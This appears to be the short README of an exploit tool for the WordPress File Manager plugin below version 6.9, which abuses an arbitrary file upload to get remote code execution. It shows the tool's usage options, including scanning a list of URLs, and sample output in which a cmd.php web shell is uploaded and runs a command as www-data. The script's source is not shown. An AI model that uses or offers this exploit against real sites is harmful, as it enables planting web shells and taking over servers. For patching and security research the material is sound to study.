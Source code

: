 # wp-file-manager
File Manager < 6.9 - Arbitrary File Upload leading to RCE

```
usage: wp-file-manager.py [-h] [-u URL] [-f FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of host to check will need http or https
  -f FILE, --file FILE  File of URLS to check
```

```
[+] Testing https://localhost [+]
[*]Shell Uploaded https://localhost/wp-content/plugins/wp-file-manager/lib/files/cmd.php?cmd=id[*]
Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
